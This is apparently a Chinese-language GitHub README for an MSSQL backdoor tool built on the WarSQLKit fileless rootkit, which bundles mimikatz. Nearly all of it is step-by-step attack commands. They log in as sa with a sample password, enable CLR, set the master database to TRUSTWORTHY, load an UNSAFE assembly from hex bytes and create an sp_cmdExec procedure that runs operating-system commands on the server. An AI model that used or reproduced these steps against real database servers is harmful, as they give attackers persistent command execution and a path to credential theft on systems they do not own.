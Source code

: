 ## MSSQL_BackDoor 

目的主要是摆脱MSSMS和 Navicat 调用执行 sp_cmdExec



在原有项目( [https://github.com/EPICROUTERSS/MSSQL-Fileless-Rootkit-WarSQLKit](https://github.com/EPICROUTERSS/MSSQL-Fileless-Rootkit-WarSQLKit) )做了更新

- 使用脚本查询可以获取返回值, 之前只能获取消息, 所以很依赖工具执行 sp_cmdExec
- 更新 mimikatz_powershell 至2020版本



基于狼师傅的工具([http://wolvez.club/2019/09/19/mssql-command-tool/](http://wolvez.club/2019/09/19/mssql-command-tool/))稍微改了下程序

1. OpenCLR

```
./mssqlrootkit -s 3.3.3.155 -u sa -p Admin1314 -q "sp_configure 'clr enabled', 1;RECONFIGURE;ALTER DATABASE master SET TRUSTWORTHY ON;"
```



2. Load_ASSEMBLY

```
CREATE ASSEMBLY [WarSQLKit] AUTHORIZATION [dbo] FROM 0x4D5A9... WITH PERMISSION_SET = UNSAFE;
```



3. Create_StoredProcedure

```
./mssqlrootkit -s 3.3.3.155 -u sa -p Admin1314 -q 'CREATE PROCEDURE [dbo].[sp_cmdExec] @cmd NVARCHAR (MAX), @result NVARCHAR (MAX) OUTPUT AS EXTERNAL NAME [WarSQLKit].[StoredProcedures].[CmdExec];'
```

4. 🤣🤣🤣🤣🤣🤣

![Xnip2020-07-05_13-38-07](README.assets/Xnip2020-07-05_13-38-07.png)

![Xnip2020-07-05_13-42-09](README.assets/Xnip2020-07-05_13-42-09.png)

![Xnip2020-07-05_13-44-39](README.assets/Xnip2020-07-05_13-44-39.png)